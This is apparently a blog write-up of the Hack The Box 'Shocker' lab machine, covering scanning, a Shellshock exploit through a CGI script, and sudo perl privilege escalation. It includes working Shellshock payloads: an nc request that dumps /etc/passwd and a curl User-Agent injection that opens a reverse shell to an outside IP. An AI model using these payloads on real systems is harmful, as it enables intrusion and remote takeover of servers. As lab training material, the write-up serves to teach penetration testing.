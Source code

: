 ```yaml
---
layout: PostSimple
date: 2019-12-03
title:     "Hack The Box - Shocker"
tags: ['linux','easy','sudo','shellshock']
layout: PostSimple
categories: HackTheBox OSCP-Like
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-shocker/1.png)

We are going to pwn Shocker from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/108>


Like always begin with our Nmap Scan.

## Nmap Scan Results
```bash
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 4.2 (95%), Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.8 - 3.11 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 4.4 (95%), Linux 4.8 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Check whats in the webpage<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-shocker/2.png)

Like always lets try bruteforcing the webpage to find any interesting page.

## Gobuster Results

```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.56
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/02 21:00:28 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/cgi-bin/ (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2019/12/02 21:04:36 Finished
===============================================================
```
> /cgi-bin  is a folder used to house scripts that will interact with a Web browser to provide functionality for a Web page or website. 

## Checking ShellShock Exploit 

May be if we found any scripts available on ``/cgi-bin/`` we can do ``shellshock`` exploit as the name of the box ``Shocker`` gives us a clue.

Lets bruteforce `` /cgi-bin/ `` , I gave extensions as ``sh,py,pl`` to check for any scripts.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-shocker/3.png)<br/>
My guess is correct there is an ``user.sh`` script available

For more info
> https://null-byte.wonderhowto.com/how-to/exploit-shellshock-web-server-using-metasploit-0186084/

## Getting Shell

There is a module for shellshock exploit, Lets fire up the metasploit

> use exploit/multi/http/apache_mod_cgi_bash_env_exec

We need to give the location of the script in ``TARGETURI`` 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-shocker/4.png)

Lets check first whether it is vulnerable or not!
It is Vulnerable so run this and we can get an shell.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-shocker/5.png)

We have an user called ``shelly``

## Privilege Escaltion

I uploaded my Linux Enumeration Script and found that ``perl`` can run as root without password.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-shocker/6.png)

Lets check GTFOBins

>https://gtfobins.github.io/gtfobins/perl/

``sudo perl -e 'exec "/bin/sh";``

Running this command will make us root

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-shocker/7.png)

We got ROOT ~

## Method 2 (Without Metasploit)

We can get shell without using metasploit

By injecting the `UserAgent` Manually I can read the `/etc/passwd` so by using this I can get reverse shell too.
```bash
root@kali:~/Downloads# echo -e "HEAD /cgi-bin/user.sh HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc 10.10.10.56 80
HTTP/1.1 200 OK
Date: Tue, 07 Jul 2020 04:21:30 GMT
Server: Apache/2.4.18 (Ubuntu)
root: x:0:0:root:/root:/bin/bash
daemon: x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin: x:2:2:bin:/bin:/usr/sbin/nologin
sys: x:3:3:sys:/dev:/usr/sbin/nologin
sync: x:4:65534:sync:/bin:/bin/sync
games: x:5:60:games:/usr/games:/usr/sbin/nologin
man: x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp: x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail: x:8:8:mail:/var/mail:/usr/sbin/nologin
news: x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp: x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy: x:13:13:proxy:/bin:/usr/sbin/nologin
www-data: x:33:33:www-data:/var/www:/usr/sbin/nologin
backup: x:34:34:backup:/var/backups:/usr/sbin/nologin
list: x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc: x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats: x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody: x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync: x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network: x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve: x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy: x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog: x:104:108::/home/syslog:/bin/false
_apt: x:105:65534::/nonexistent:/bin/false
lxd: x:106:65534::/var/lib/lxd/:/bin/false
messagebus: x:107:111::/var/run/dbus:/bin/false
uuidd: x:108:112::/run/uuidd:/bin/false
dnsmasq: x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd: x:110:65534::/var/run/sshd:/usr/sbin/nologin
shelly: x:1000:1000:shelly,,,:/home/shelly:/bin/bash
Connection: close
Content-Type: text/x-sh
```

Reference:
>https://medium.com/@hackbotone/shellshock-attack-on-a-remote-web-server-d9124f4a0af3

So All we need to do is run this command on our machine and listening on another terminal

```bash
curl -A '() { :; }; /bin/bash -i > /dev/tcp/10.10.14.17/9000 0<&1 2>&1' http://10.10.10.56/cgi-bin/user.sh
```

It is injecting on the `` User-Agent `` on the request header.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-shocker/8.png)

WE got ``shelly`` and Privilege Escalation is as same as before.